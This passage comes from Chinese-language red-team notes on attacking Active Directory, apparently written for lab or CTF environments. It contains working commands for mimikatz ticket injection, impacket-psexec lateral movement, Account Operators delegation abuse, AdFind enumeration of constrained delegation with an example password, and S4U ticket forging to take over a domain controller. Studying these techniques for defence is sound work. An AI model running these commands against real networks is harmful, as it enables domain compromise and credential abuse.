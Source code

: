 注入票据

```bash
export KRB5CCNAME=Administrator.ccache
或者 windows上可以用mimikatz 将票据注入内存
mimikatz.exe "kerberos::ptc administrator.ccache" exit
```

`psexec`横移

```bash
proxychains impacket-psexec administrator@XR-0687.xiaorang.lab -k -no-pass -dc-ip 172.22.15.13
```

#### 利用方式2 Acount Operators组用户拿下主机

如果获得Acount Operators组用户就可以获得域内除了域控的所有主机权限

Acount Operators组成员可以修改域内除了域控其他所有主机的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性

**查询Acount Operators组成员**

```text
adfind.exe -h 10.150.127.166:389 -s subtree -b CN="Account Operators",CN=Builtin,DC=haishi,DC=haishi,DC=com member
```

之后便是一样，只是我们可以修改任意除域控外的机器用户。

#### 利用方式3：结合NTLM Relay接管域控（CVE-2019-1040）



### 约束委派

**如果我们可以攻破配置约束委派的服务账户(获取密码/Hash)，我们就可以模拟域内任意用户(如 domain\administrator) 并代表其获得对已配置服务的访问权限（获取 TGS 票据）。**

此外，我们不仅可以访问约束委派配置中用户可以模拟的服务，**还可以访问使用与模拟帐户权限允许的任何服务。**（因为未检查 SPN，只检查权限）。比如，如果我们能够访问 CIFS 服务，那么同样有权限访问 HOST 服务。注意如果我们有权限访问到 DC 的 LDAP 服务，则有足够的权限去执行 DCSync。

使用 Adfind **查询约束委派的用户**

```bash
AdFind.exe -h 10.10.10.8 -u redteam-iis -up Server12345 -b "DC=redteam,DC=red" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" cn distinguishedName msds-allowedtodelegateto
```

#### S4U 伪造高权限 ST 拿下域控

先清空内存票据

```bash
 # 清空内存票据
 kerberos::purge
 # 查看内存中的票据
 kerberos::list
```

假如某个用户配置了到域控的约束委派，这里以MSSQLSERVER$ 举例, 可以通过 S4U 伪造高权限 ST 拿下域控
